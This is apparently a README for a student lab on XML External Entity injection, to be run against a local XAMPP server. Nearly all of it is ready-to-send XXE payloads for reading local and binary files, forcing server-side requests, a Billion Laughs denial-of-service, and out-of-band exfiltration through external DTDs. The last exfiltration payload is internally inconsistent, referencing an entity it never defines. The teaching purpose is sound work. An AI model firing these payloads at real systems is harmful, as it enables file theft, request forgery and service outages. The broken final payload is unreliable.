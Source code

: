 From: https://depthsecurity.com/blog/exploitation-xml-external-entity-xxe-injection
https://dzone.com/articles/what-is-xml-external-entity-xxe
Run the php file in a XAMPP instance. Then issue queries to the server with these XMLs included (only one XML per query, so one example per query), e.g. with Postman.

These examples are intented to be performed live and by the fellow students.


1st task: Retrieve a non-binary file from the server's machine:
```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///[ABSOLUTE PATH TO THE FILE]" >]>
<creds>
    <user>&xxe;</user>
    <pass>mypass</pass>
</creds>
```

2nd task: Retrieve a binary file from the server's machine (Base64 encoded):
```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY>
  <!ENTITY xxe SYSTEM
  "php://filter/read=convert.base64-encode/resource=file:///[ABSOLUTE PATH TO THE FILE]">
]>
<creds>
    <user>&xxe;</user>
    <pass>mypass</pass>
</creds>
```

3th task: Get the result of a request made by the server to a website (Base64 encoded):
```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY>
  <!ENTITY xxe SYSTEM
  "php://filter/read=convert.base64-encode/resource=http://google.de/">
]>
<creds>
    <user>&xxe;</user>
    <pass>mypass</pass>
</creds>
```

4th task: Billion Laughs attack:
```
<?xml version="1.0" encoding="ISO-8859-1"?> 
<!DOCTYPE foo [
  <!ELEMENT foo ANY>
  <!ENTITY bar "World ">
  <!ENTITY t1 "&bar;&bar;&bar;&bar;&bar;&bar;">
  <!ENTITY t2 "&t1;&t1;&t1;&t1;&t1;&t1;&t1;&t1;&t1;&t1;&t1;&t1;&t1;&t1;&t1;&t1;">
  <!ENTITY t3 "&t2;&t2;&t2;&t2;&t2;">
]>
<creds>
  <user>Hello &t2;</user>
  <pass>mypass</pass>
</creds>
```

5th task: Get the result of a request made by the server to a website (Wrapped in CDATA Tags):
```
bad.dtd:

<!ENTITY % file SYSTEM "file:///etc/[filename]">
<!ENTITY % cDataStart "<![CDATA[">
<!ENTITY % cDataEnd "]]>">
<!ENTITY % all "<!ENTITY contents 
'%cDataStart;%file;%cDataEnd;'>">

Post Request: 

<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE data [
  <!ENTITY % dtd SYSTEM
  "http://localhost/bad.dtd">
  %dtd;
  %all;
]>
<creds>
    <user>&contents;</user>
    <pass>mypass</pass>
</creds>
```

6th task: Redirect the result of the request to another server:
```
Sample XML:
 <?xml version="1.0"?>
<!DOCTYPE sampleList SYSTEM "http://localhost/attack.dtd">
 
<sampleList>
   <sampleElement>
      <title lang="en">Title</title>
      <name>Mike</name>
      <lastname>Smith</lastname>
   </sampleElement>
</sampleList>


Post Request: 
<?xml version="1.0"?>
<!DOCTYPE sampleList[
	<!ENTITY % remote SYSTEM "http://localhost/attack.dtd">
	%remote;%int;%trick;
]>
<sampleList>
   <sampleElement>
      <title lang="en">Title</title>
      <name>%int</name>
      <lastname>Smith</lastname>
   </sampleElement>
</sampleList>



attack.dtd: 
<!ENTITY % pay SYSTEM "http://localhost/passwd.txt">
<!ENTITY % int "<!ENTITY % trick SYSTEM ‘http://localhost/?var1=%pay1;’>">





